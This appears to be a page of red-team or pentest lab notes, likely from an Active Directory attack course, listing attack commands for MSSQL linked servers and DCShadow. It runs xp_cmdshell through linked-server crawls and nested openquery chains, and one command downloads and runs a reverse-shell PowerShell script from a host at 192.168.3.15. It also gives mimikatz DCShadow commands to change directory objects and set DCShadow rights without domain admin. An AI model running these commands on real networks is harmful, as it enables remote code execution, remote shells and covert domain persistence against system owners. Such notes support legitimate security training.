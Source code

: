 - Get-SQLServerLinkCrawl -Instance ycsc-ind-mssql -Query "exec master..xp_cmdshell 'whoami'"
- select * from openquery("ycsc-ind-mssql",'select * from openquery("ycsc-ind-mail",''select * from openquery("ubws-sql",''''select @@version as version;exec master..xp_cmdshell "powershell whoami")'''')'')')
- Get-SQLServerLinkCrawl -Instance ycsc-ind-mssql -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.3.15:8080/Invoke-PowerShellTcp2.ps1'')"' | ft

## DCShadow

### DCShadow commands

- lsadump::dcshadow /object:user.ycsc02 /attribute:Description /value="Hello from DCShadow"
- Set-DCShadowPermissions -FakeDC ycsc-av -SAMAccountName user.ycsc02 -Username user.ycsc01 -Verbose (to use DCShadow without DA)
- (New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl - to check adminsdholder acl
